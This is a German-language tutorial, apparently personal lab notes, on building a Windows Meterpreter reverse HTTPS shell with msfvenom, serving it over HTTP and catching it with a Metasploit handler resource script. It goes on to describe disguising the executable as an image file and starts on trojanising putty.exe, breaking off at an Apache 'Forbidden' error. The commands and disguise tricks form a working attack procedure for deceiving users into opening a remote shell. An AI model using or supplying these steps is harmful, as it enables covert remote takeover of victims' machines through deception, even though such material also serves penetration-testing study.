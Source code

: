 

## meterpreter_reverse_https

Eine remote shell Verbindung auf Port 8080 mit TCP kann relativ leicht IDS/IPS Systeme und Firewalls erkannt werden (nicht Windows Firewall beim Test).

Alternativ mit Port 443, https, dies tarnt sich als normale sichere Verbindung zu einem Web-Server.

```sh
$ msfvenom -p windows/meterpreter_reverse_https LHOST=192.168.178.81 LPORT=443 -f exe -o mp_http_rev_shell_443.exe
```

`http://192.168.178.81/mp_http_rev_shell_443.exe`

msf Resource Script:

```sh
echo "use exploit/multi/handler\nset payload windows/meterpreter/reverse_https\nset lhost 192.168.178.81\nset lport 443\nrun\n" > msf_macro_https_443.rc
```

```bash
$ msfconsole -r msf_macro.rc
```

Dann `mp_http_rev_shell_443.exe` unter Windows starten.



# Trick

Das exe File als Bilddatei tarnen. Icon der Applikation durch ein Bild ersetzen, so dass es im Explorer wie ein Bild angezeigt wird. Wenn der Benutzer das Bild mit einem Doppelclick öffnen will wird in wirklichkeit die reverse shell gestartet.



# putty Trojaner

Es ist unter Umständen schwierig einen User zum Starten eines Programms zu bewegen um die reverse shell zu starten. Bei einem Trojaner wird die reverse shell in ein dem User bekanntes Programm integriert.

Die Datei `putty.exe` (32 Bit Standalone Version von [www.putty.org](https://www.putty.org)) auf Kali kopieren und in `/var/www/html` kopieren.

Unter Windows im Webbrowser laden.

`http://192.168.178.81/putty.exe`

Falls die folgende Fehlermeldung im Browser kommt:

```
Forbidden
You don't have permission to access this resource.

Apache/2.4.46 (Debian) Server at 192.168.178.81 Port 80
```
